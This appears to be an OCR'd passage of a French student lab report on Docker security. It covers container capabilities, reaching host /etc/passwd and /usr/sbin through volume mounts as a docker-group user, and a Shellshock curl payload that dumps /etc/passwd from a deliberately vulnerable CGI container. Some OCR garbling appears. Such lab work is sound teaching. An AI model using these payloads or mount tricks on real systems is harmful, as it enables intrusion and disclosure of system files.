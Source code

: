 ```sh
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: UNCERTAIN (0)

```

### 4.2 Prise de contrôle du container avec des capabilities permettant une escalade de privilèges

```sh
dio@lucky-theone:~$ docker run -d --cap-drop=cap_kill debian:pingfour
dcc8c559321f18e51520bbb7bd0f43cbd5cc5dd3faec998b379ee255ac684f3f


```

## 5 Attaque sur le daemon Docker par un utilisateur local à l’hôte

- 1. Sous le compte d’un utilisateur appartenant au groupe Docker, trouvez le moyen d’accéder à /etc/-password et /usr/sbin/ de la machine en utilisant les volumes Docker

```bash
docker run -it -v /etc/passwd:/host/etc/passwd -v /usr/sbin:/host/usr/sbin ubuntu-custom bash
```

- 2. Qu’en deduisez-vous de la sécurité d’un PC de développeur avec Docker ?

## 6. Utilisation de AppArmor afin de contrôler un container vulnérable à ShellShock

2) Voici la commande pour lancer le docker

```bash
docker run -d -p 80:80 --name=hitme --hostname=hitme registry.iutbeziers.fr/debian-lenny-shellshock
```

4) Voici la commande :

```bash
dio@lucky-theone:~$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://172.17.0.2/cgi-bin/simple-cgi-bin.sh

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
```